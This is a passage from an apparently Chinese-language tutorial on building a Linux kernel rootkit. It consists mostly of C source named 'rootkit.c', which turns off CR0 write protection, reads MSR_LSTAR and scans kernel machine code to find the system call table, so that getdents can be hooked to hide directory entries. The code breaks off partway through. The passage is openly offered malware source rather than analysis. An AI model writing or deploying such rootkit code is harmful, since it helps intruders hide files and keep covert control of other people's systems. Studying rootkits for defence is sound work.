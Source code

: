 * `getdents` 跑完後會把結果存到 `dirp` 裡面，那我們就遍歷 `dirp` 把要隱藏的丟掉就好了
* kernel 4.x.x 的參數是放在 stack 傳的，但 kernel 5.x.x 多包了一層 `do_syscall_64`，參數傳遞變成是透過 `struct pt_regs *regs` 這個結構去傳

```c rootkit.c
#include <linux/init.h>
#include <linux/module.h>
#include <linux/kallsyms.h>
#include <linux/syscalls.h>

MODULE_LICENSE("GPL");

struct linux_dirent {
    unsigned long  d_ino;     /* Inode number */
    unsigned long  d_off;     /* Offset to next linux_dirent */
    unsigned short d_reclen;  /* Length of this linux_dirent */
    char           d_name[];  /* Filename (null-terminated) */
};

void **sys_call_table;

int (*original_getdents) (struct pt_regs *regs);

void writable_unlock (void) {
    unsigned long val = read_cr0() & (~X86_CR0_WP);
    asm volatile("mov %0,%%cr0": "+r" (val));
}

void writable_lock (void) {
    unsigned long val = read_cr0() | X86_CR0_WP;
    asm volatile("mov %0,%%cr0": "+r" (val));
}

uint8_t *find (uint8_t *a, uint8_t *b, size_t len) {
    for (uint8_t *ptr = a, i = 0; i < 500; i++, ptr++) {
        if (!strncmp(ptr, b, len)) {
            return ptr;
        }
    }
    return 0;
}

uint8_t *get_syscalltable (void) {
    int lo, hi;
    asm volatile("rdmsr" : "=a" (lo), "=d" (hi) : "c" (MSR_LSTAR));
    uint8_t *entry_SYSCALL_64 = (uint8_t *)(((uint64_t)hi << 32) | lo);

    uint8_t *ptr;
    
    uint8_t do_syscall_64_inst[7] = {
        0x48, 0x89, 0xc7, // mov rdi, rax
        0x48, 0x89, 0xe6, // mov rsi, rsp
        0xe8,             // call do_syscall_64
    };
    ptr = find(entry_SYSCALL_64, do_syscall_64_inst, 7);
    uint8_t *do_syscall_64 = (uint8_t *)(ptr + 11 + ((uint64_t)0xffffffff00000000 | *(uint32_t *)(ptr + 7)));
    
    uint8_t sys_call_table_inst[4] = {
        0x48, 0x8b, 0x04, 0xfd // mov rax, QWORD PTR [rdi*8-?]
    };    
    ptr = find(do_syscall_64, sys_call_table_inst, 4);
    uint8_t *sys_call_table = (uint8_t *)((uint64_t)0xffffffff00000000 | *(uint32_t *)(ptr + 4));

```